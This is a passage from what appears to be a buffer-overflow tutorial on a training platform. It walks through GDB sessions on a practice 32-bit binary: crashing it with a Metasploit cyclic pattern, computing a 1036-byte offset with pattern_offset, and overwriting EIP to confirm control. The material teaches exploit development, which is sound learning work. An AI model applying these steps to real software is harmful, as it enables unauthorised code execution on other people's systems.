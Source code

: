 Now we replace our 1200 " `U`"s with the generated patterns and focus our attention again on the EIP.

#### GDB - Using Generated Pattern

```shell
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

```

#### GDB - EIP

```shell
(gdb) info registers eip

eip            0x69423569	0x69423569

```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called " `pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

#### GDB - Offset

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036

```

#### Buffer

![Memory layout diagram with sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow shows a buffer overflow from strcpy() in the Stack, affecting ESP, EBP, and EIP registers, with an offset of 1036 bytes.](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

If we now use precisely this number of bytes for our " `U`"s, we should land exactly on the `EIP`. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with " `\x66`" and execute it to ensure we control the `EIP`.

#### GDB Offset

```shell
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

```
